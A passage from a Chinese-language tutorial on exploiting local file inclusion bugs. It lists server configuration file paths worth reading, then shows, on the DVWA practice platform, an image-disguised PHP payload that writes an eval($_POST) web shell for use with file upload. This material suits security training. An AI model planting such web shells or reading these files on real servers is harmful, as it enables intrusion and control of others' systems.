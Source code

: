 ```

3./usr/local/app/apache2/conf/httpd.conf //Apache2默认配置文件

4./usr/local/app/apache2/conf/extra/httpd-vhost.conf //虚拟网站配置

5./usr/local/app/php5/lib/php.ini //PHP相关配置

6./etc/httpd/conf/httpd.conf //Apache配置文件

7./etc/my.conf //mysql配置文件
```

### 三、LFI漏洞利用技巧

#### 1、配合文件上传使用

​	有时候我们找不到文件上传漏洞，无法上传webshell，可以先上传一个图片格式的webshell到服务器，再利用本地文件包含漏洞进行解析。

以DVWA平台为例，将Security Level选择low，编辑一个图片马，内容如下:

```php
<?php
	fwrite(fopen("shell.php","w"),'<?php eval($_POST[123]);?>);
?>
```

找到上传点进行上传：

![bf2eedc3da474531b1917d7763177fa1](assets/bf2eedc3da474531b1917d7763177fa1.png)

文件保存的完整路径为：

DVWA平台low等级文件包含漏洞页面如下：

![1e9282b639c74eab91df6ec0a00bb71c](assets/1e9282b639c74eab91df6ec0a00bb71c.png)
